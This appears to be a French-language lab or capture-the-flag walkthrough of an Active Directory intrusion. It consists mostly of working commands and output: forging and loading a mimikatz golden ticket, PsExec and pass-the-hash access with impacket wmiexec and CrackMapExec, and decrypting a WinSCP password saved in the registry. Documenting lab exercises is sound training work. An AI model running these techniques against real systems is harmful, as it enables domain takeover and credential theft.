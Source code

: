 # Step 9

## golden ticket

* get domain sid

```powershell
Get-ADDomain
```

* craft le golden ticket

```powershell
.\mimikatz.exe

privilege::debug

kerberos::golden /user:Administrator /domain:factory.lan /sid:3c68c509b487662c87ced8ebcda6e69b /krbtgt:3c68c509b487662c87ced8ebcda6e69b /ticket:factory.lan.kirbi
```

* load le ticket

```powershell
.\mimikatz.exe

privilege::debug

kerberos::ptt factory.lan.ticket
```

## kirbi to ccache

* dans kekeo 

```powershell
misc::convert ccache factory.lan.kirbi
```

## connection to 172.16.42.101

dans le bloodhound on voit une autre machine: pc01-dev.factory.lan, quand on l'a ping ça redirige bien sur la 101, donc aevec le golden ticket :

```powershell
PsExec.exe \\pc01-dev.factory.lan cmd.exe
```

apres avoir enum un peu les fichiers et les dossier, on voit deux users :

- adminWorkstation
- Marina

adminWorkstation est dans le ntds.dit, donc un utilisateur du domaine. Utilisateur avec lequel il est possible de pop un shell.

* wimexec en pass the hash

```bash
/usr/share/doc/python-impacket/examples/wmiexec.py adminWorkstation@172.16.42.101 -hashes aad3b435b51404eeaad3b435b51404ee:8392dd649c5c285244fddd49695d188d
```

* cme pth

```bash
(CrackMapExec-0pwsdAYT) ➜  CrackMapExec git:(master) cme smb 172.16.42.101 -u 'adminWorkstation' -H 'aad3b435b51404eeaad3b435b51404ee:8392dd649c5c285244fddd49695d188d' -d 'FACTORY'

SMB         172.16.42.101   445    PC01-DEV         [*] Windows 10.0 Build 18362 x64 (name:PC01-DEV) (domain:FACTORY) (signing:False) (SMBv1:False)
SMB         172.16.42.101   445    PC01-DEV         [+] FACTORY\adminWorkstation aad3b435b51404eeaad3b435b51404ee:8392dd649c5c285244fddd49695d188d (Pwn3d!)

```

## info winscp

```bash
root@arcardia:/opt/t/CrackMapExec# /usr/share/doc/python-impacket/examples/wmiexec.py adminWorkstation@172.16.42.101 -hashes aad3b435b51404eeaad3b435b51404ee:8392dd649c5c285244fddd49695d188d
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>reg.exe query "HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2"

HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Configuration
HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions

C:\>reg.exe query "HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions"

HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\Default%20Settings
HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\veruca@172.16.69.78

C:\>reg.exe query "HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\veruca@172.16.69.78"

HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\veruca@172.16.69.78
    HostName    REG_SZ    172.16.69.78
    UserName    REG_SZ    veruca
    Password    REG_SZ    A35C4356079A1F0870112F60D87D2A392E293F3D6D6B6E726D6A726A65726B641F29353535350519196F2E6F7DEB849B0EDE

```

* decoded creds 

> https://github.com/anoopengineer/winscppasswd/releases

```powershell
.\winscppasswd 172.16.69.78 veruca A35C4356079A1F0870112F60D87D2A392E293F3D6D6B6E726D6A726A65726B641F29353535350519196F2E6F7DEB849B0EDE

CuiiiiYEE3r3!
```

* trouver le binaire de winscp

```powershell
type C:\Users\adminWorkstation\Desktop\WinSCP.lnk

map the result with https://docs.python.org/2.4/lib/standard-encodings.html
and then execute wmiexec.py again with -codec and the corresponding codec
L�F� Ӭ��C)�0ĞD)�q�i�а/{P�O� �:i�+00�/C:\�1�NӭPROGRA~2�	�sN�&�Nӭ.XV��GProgram Files (x86)@shell32.dll,-21817T1�NԭWinSCP>	��Nӭ�Nխ.��'�fWinSCP`2а/�Nc� WinSCP.exeF	��Nӭ�Nԭ.��WinSCP.exe�W-Vρ`�C:\Program Files (x86)\WinSCP\WinSCP.exe(WinSCP: SFTP, FTP, WebDAV and SCP client...\..\..\Program Files (x86)\WinSCP\WinSCP.exeC:\Program Files (x86)\WinSCP�*�
```

> C:\Program Files (x86)\WinSCP\WinSCP.exe